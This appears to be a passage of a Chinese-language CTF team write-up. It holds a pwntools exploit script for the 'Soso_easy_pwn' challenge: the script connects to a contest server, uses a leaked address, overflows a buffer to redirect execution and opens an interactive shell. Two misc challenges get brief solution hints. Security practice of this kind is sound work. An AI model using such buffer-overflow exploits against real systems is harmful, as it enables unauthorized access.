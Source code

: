 

### Soso_easy_pwn

#### 描述

#### 解决

有一位随机，没有去搞，多跑几次就好。

exp:

~~~python
# coding=utf-8
from pwn import *
import time

p=remote('101.71.29.5',10000)
p.recvuntil("Welcome our the ")
data=hex(int(p.recvline()[:-7]))
sh_addr=int(data+'59cd',16)
print "sh_addr="+hex(sh_addr)
p.recvuntil("So, Can you tell me your name?")
payload=12*'a'+p32(sh_addr)
p.send(payload)
p.recvuntil(":")
p.sendline("3")
p.interactive()
~~~



## misc

### 快乐游戏题

#### 描述

玩游戏

#### 解决

随机一个好开局就OK了。



### EasyBox

#### 描述

nc 101.71.29.5 10011

#### 解决

题目由数独改编，只是少了一个数独的判断，就是不需要判断九宫格里面是1-9，去掉这个检测即可。

